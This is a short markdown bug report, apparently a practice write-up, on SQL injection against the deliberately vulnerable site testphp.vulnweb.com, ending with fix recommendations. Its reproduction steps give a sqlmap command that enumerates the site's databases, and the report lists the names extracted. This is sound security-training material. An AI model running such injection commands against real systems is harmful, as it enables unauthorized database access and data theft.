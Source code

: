 
# Bug Report: SQL Injection on testphp.vulnweb.com

**Target:** http://testphp.vulnweb.com  
**Bug Type:** SQL Injection  
**Tool Used:** sqlmap  
**Severity:** High  
**Status:** Confirmed Vulnerable

---

## 🧪 Steps to Reproduce:

1. URL:

http://testphp.vulnweb.com/artists.php?artist=1

2. Run sqlmap:

sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --batch --dbs

3. Result:  
sqlmap successfully extracted database names:
- acuart
- information_schema

---

## 🔍 Evidence:

- SQLmap output confirming vulnerability
- Dumped database names shown in CLI

---

## 🔐 Recommendation:

Use parameterized queries or prepared statements  
Apply WAF and input validation

---

✅ Reported by: **Cyber Jatti (Alishba)**  
🕵️‍♀️ Tool: sqlmap


---
